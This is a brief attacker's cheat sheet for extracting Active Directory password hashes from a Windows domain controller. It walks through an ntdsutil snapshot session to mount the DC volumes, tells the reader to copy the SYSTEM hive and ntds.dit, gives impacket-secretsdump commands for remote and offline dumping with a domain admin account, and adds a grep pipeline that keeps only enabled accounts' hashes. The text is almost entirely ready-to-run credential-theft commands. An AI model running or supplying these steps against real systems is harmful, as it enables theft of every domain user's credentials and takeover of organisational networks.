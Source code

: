 ### Local DC

C:\Windows\system32>C:

C:\Windows\system32>cd ..
C:\Windows>cd ..

C:\>cd Users	

C:\Users>cd <admin_user>

Change into your admin user directory.

C:\Users\nta007>**ntdsutil**

ntdsutil: **activate instance ntds**

Active instance set to "ntds".

ntdsutil: **snapshot**

snapshot: **create**

Creating snapshot...

Snapshot set {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3} generated successfully.

snapshot: **mount {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**

```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} mounted as C:\$SNAP_201801091253_VOLUMED$\
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} mounted as C:\$SNAP_201801091253_VOLUMEC$\
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} mounted as C:\$SNAP_201801091253_VOLUMEE$\
```

Grab your bits here!

snapshot: **delete {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} unmounted.
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} deleted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} unmounted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} deleted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} unmounted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} deleted.
```

snapshot: **quit**

ntdsutil: **quit**

C:\Users\nta007>




GET THE SYSTEM FILE ASWELL (WINDOWS SYSTEM32 CONFIG)
C:\Windows\System32\Config
SYSTEM
NTDS - in the windows folder

### Remote
impacket-secretsdump -just-dc-ntlm FQDN/DA-account@DC-IP

***New commands*** (python3.9)
/usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile <filename> local
cat hashes | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1 < for getting just the hashes
